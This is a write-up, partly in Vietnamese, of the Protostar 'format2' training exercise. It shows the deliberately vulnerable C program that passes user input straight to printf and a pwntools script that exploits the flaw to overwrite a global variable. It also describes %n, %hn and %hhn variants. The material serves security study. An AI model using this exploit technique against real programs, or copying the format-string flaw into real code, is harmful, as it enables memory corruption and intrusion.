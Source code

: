 # format string 2

## source code 

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);
  
  if(target == 64) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %d :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

## solution

Sử dụng format string để thay đổi giá trị biến target thành 64.

### exploit with pwntool

```python
#!python3
from pwn import *
# Assume a process that reads a string
# and gives this string as the first argument
# of a printf() call
# It do this indefinitely


# Function called in order to send a payload
def send_payload(payload):
    p = process('../../protostar/format2')
    p.sendline(payload)
    log.info("payload = %s" % repr(payload))
    a = p.recvall()
    log.info("output = %s" % repr(a))
    p.close()
    return a

# Create a FmtStr object and give to him the function
format_string = FmtStr(execute_fmt=send_payload)
offset = format_string.offset
log.info("offset = %d" % offset)
write = {
    0x80496e4: 0x40
}
#32 = size của payload tìm ra offset
payload = fmtstr_payload(offset, write)
payload = payload + b'a' * (32 - len(payload))
log.info("payload = %s" % repr(payload))
p = process('../../protostar/format2')
p.sendline(payload)

print(p.recvall())
```

### %n 

tìm vị trí offset

![1](1.png)

có thể thấy offset cần khai thác ở vị trí số 4 và việc thay đổi độ dài payload ko ảnh hưởng đến vị trí offset

![2](2.png)

Chúng ta sẽ cần 4 byte xác định vị trí biến target, sau đó ta dùng độ dài 64 − 4 = 60, và kết thúc với yêu cầu n sử dụng tham số thứ 4.

### %hn

payload tương tự vs %n ta có thể ghi giá trị 64 vào 2 byte của target

![3](3.png)

### %hhn

tương tự như %hn, ta vẫn có thể ghi giá trị vào target chỉ vs 1 byte

![4](4.png)